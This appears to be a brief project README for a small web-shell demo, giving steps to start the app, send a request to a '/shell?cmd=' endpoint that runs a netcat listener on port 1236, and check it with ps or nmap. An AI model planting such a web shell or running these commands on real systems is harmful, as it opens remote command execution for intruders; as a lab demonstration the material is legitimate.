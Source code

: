 A little program to launch a webshell.

* Start the application
* curl -X GET http://localhost:65100/shell?cmd=netcat%20-nlvp%201236
* ps aux | grep 'netcat -nlvp' **OR** nmap -p 1236 localhost 